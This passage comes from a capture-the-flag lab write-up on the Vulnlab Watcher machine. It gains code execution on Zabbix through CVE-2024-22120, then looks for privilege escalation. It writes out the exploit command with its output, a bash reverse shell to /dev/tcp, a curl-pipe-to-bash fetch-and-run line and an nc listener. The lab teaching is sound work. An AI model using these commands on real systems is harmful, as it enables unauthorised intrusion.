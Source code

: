 The `hostid` can be taken from the response of the `POST` request to `zabbix.php?action=host.view.refresh`, which looks like the following:

```html
<SNIP>
<none;">target: zabbix</div></div></td><td><span class="green">Enabled</span></td><td><a href="zabbix.php?action=latest.view&amp;hostids%5B0%5D=10084&amp;filter_set=1">
<SNIP>
```

Having obtained the two required values for the exploit, we are going to proceed to use the `CVE-2024-22120-RCE.py` exploit. The exploit itself will spawn a semi-interactive shell:

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes/CVE-2024-22120-RCE]
└─$ python3 CVE-2024-22120-RCE.py --ip zabbix.watcher.vl --sid 81cd39b5189978ffb8f7f8d4b4eab23e --host 10084 

(!) sessionid=e29cc8d946f1a3135fe7ceec60d0ff0d

[zabbix_cmd]>>:  id
uid=115(zabbix) gid=122(zabbix) groups=122(zabbix)
```

To upgrade the shell I usually create and host a bash script with the well-known syntax for reverse shell:

```bash
#!/bin/bash

bash -i >& /dev/tcp/IP/PORT 0>&1
```

And, subsequently, use the semi-interactive shell to grab and execute it.

```bash
[zabbix_cmd]>>:  curl http://IP/rev.sh | bash
```

With the new shell, we can grab the flag and proceed to think of a vector for privilege escalation:

```bash
┌──(kali㉿kali)-[~/vulnlab/watcher-notes]
└─$ nc -nvlp 9001
listening on [any] 9001 ...

zabbix@watcher:/$ cd ~
cd ~
zabbix@watcher:/var/lib/zabbix$ ls
ls
user.txt
```

We can use `linPEAS` or any other automated enumeration tool, or we can use the plain and simple `find` command to search for writable files for example:


```bash
zabbix@watcher:/var/lib/zabbix$ find / -type f -writable 2>/dev/null                                                 
/tmp/zabbix_server.pid
/tmp/zabbix_agentd.pid
/tmp/zabbix_agentd.log
/tmp/zabbix_server.log
/var/lib/zabbix/user.txt
/usr/share/zabbix/trigger_prototypes.php
/usr/share/zabbix/hostinventories.php
/usr/share/zabbix/image.php/zabbix/api_jsonrpc.php
/usr/share/zabbix/robots.txt
/usr/share/zabbix/chart2.php
/usr/share/zabbix/local/README
```